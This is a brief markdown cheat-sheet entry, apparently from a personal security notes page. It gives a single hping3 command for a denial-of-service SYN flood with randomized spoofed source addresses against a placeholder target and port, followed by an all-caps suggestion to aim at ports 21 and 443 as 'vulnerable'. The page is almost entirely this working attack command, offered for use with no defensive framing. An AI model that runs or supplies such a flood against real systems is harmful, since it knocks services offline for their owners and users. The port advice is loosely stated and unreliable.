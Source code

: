 ```yaml
---
layout: default
title: "|--Hping3 "
date: 2025-07-02 
tags: [networking]
---
```


DoS using *hping3* with random source IP
```bash
`hping3 -c 10000 -d 120 -S -w 64 -p &lt;Port&gt; --flood --rand-source &lt;Target&gt;`
```
- YOU CAN TARGET PORT *21* and *443* because that can be vulnerable

